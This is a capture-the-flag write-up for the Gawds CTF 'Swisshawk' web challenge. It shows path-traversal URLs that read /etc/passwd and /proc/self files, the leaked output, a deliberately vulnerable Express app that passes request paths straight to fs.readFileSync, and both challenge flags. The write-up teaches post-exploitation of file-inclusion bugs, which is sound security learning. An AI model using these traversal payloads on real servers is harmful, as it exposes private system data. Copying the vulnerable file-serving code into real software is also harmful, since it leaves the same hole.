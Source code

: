 ```yaml
---
layout: post
title: Gawds CTF/ Swisshawk 
desc: This challenge seemed easy in the beginning. The second part of challenge had me breaking my head, it made me learn a new vector in post-exploitation of web apps.
comments: true
type: writeup
category: Web
points: 200
---
```


## Description

This challenge seemed easy in the beginning. The second part of challenge had me breaking my head, 
it made me learn a new vector in post-exploitation of web apps.

Your friend Tamanna is in danger, swisshawk defaced her website and hidden some flags in there.

Tamanna can only restore the website if she knows the flags, please help tamanna get her website back!

[http://swisshawk.ctf.gawds.in](http://swisshawk.ctf.gawds.in)

* * * 

## The Challenge

The challenge in a sense was quite straight forward. Opening the page greets you with a steady message.

![Challenge](/public/assets/images/startup-swisshack.png) 

As always the entry point being the source, I decided to give it a look.

<pre><p>You will never be able to find the flags, I have very carefully
        hidden it somewhere here &lt;!-- page: /app path: /config.js --&gt;</p></pre>

Looking at the comment it was evident that it was a node.js application.

From the hint, the page was currently in the `app` directory. We have to go to the root directory to access the `config.js` file.

Navigating to the following page:
<pre>http://swisshawk.ctf.gawds.in/../config.js</pre>

<pre><p>module.exports = {
    PORT: process.env.PORT || 3000,
    flag1: 'flag{F1R5T_FL4G_W45NT_THAT_H4RD}',
    flag2: 'you_cant_find_me(I am the server)'
}
<!-- page: /config.js path: /config.js --></p></pre>

<strong>Flag1: flag{F1R5T_FL4G_W45NT_THAT_H4RD} </strong>

## Phase II

Now challenge was finding the second flag. The hint too was very cryptic.
<blockquote>you_cant_find_me(I am the server)</blockquote>


The hint meant flag was present inside the server's directory.

I tried directory traversal. It being a node.js app, I tried various combinations of the entry points like `app.js` `index.js`.

<pre>http://swisshawk.ctf.gawds.in/../index.js
http://swisshawk.ctf.gawds.in/../app.js
http://swisshawk.ctf.gawds.in/app.js
http://swisshawk.ctf.gawds.in/index.js
</pre>

I then tried loading the `/etc/passwd` file.
<pre>http://swisshawk.ctf.gawds.in/../../../../../../../../../../../etc/passwd</pre>

First breakthrough!

<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
u57400:x:57400:57400:,,,:/app:/bin/bash
dyno:x:57400:57400:,,,:/app:/bin/bash
&lt;!-- page: /etc/passwd path: /config.js --&gt;
</pre>

But it still was a dissapointment, I wasn't able to access any of the server files. I went to as far as looking in the `/var/www/` directory.

I came across an article which discussed about post exploitation techniques after a LFI vulnerability. 

One interesting place to look for was the `/proc/` directory. This directory not only contained each process related files as well as file descriptors.

Each process has a directory named by its <strong>process id (pid).</strong>

The shortcut being, it isn't necessary to know the process id to access the directory. The current process directory can be accessed by navigating to the `/proc/self/` directory.

This directory contains four juicy files:

* environ
* cmdline
* maps
* mountinfo

Trying each file: `http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/environ/`
<pre>
SHLVL=1 HOME=/app
PORT=41335PS1=\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]
VERSION=v6.12.3
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NPM_VERSION=3PWD=/appDYNO=web.1NODE_CHANNEL_FD=3
&lt;!-- page: /proc/self/environ path: /config.js --&gt;</pre>

Nothing great.

`http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/cmdline/`
<pre>
/usr/bin/nodeyou_cant_find_me.js
&lt;!-- page: /proc/self/cmdline path: /config.js -->
</pre>

We found the entry point of the node.js application. 

<pre>
const express = require("express");
const config = require("../config");
const flag2 = require("../flag2isHere");
const resolve = require("path").resolve;
const fs = require("fs");

const app = express();

app.use((req, res) => {
    const path = req.originalUrl.substring(1).replace('%2f', '/').replace('%2F', '/');

    let text = `You will never be able to find the flags, I have very carefully
        hidden it somewhere here`;
    if(path) {
        try {
            text = fs.readFileSync(path);
        }
        catch(err) {
            text = err;
        }
    }

    text += "&lt;!-- page: " + resolve(path) + " path: /config.js -->";
    return res.end("&lt;p>" + text + "&lt;/p>");
});

app.listen(config.PORT, () => {
    console.log("Wohooo, all set up, listening on ", config.PORT);
})&lt;!-- page: /app/you_cant_find_me.js path: /config.js -->
</pre>

We find that `../flag2isHere` is the js file containing the flag.

Going to `http://swisshawk.ctf.gawds.in/../flag2isHere.js`

<pre>
<p>module.exports = {
    flag: "ZmxhZ3tUSElTX20xR2hUX0g0dkVfQjMzbl9MMVR0TGVfdFIxY2tZfQ=="
}&lt;!-- page: /flag2isHere.js path: /config.js --></p>
</pre>

We get the base-64 encoded string. Decoding it we get the following flag.

<strong>Flag2: flag{THIS_m1GhT_H4vE_B33n_L1TtLe_tR1ckY}</strong>
